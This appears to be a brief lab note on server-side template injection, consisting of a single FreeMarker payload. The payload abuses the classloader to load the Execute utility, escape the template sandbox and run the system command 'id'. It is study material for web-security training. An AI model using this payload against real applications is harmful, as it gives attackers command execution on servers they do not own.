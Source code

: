 # SSTI 



### Server-side template injection in a sandboxed environment
Payload 
```html

<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.Hello 

<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}


</p>
```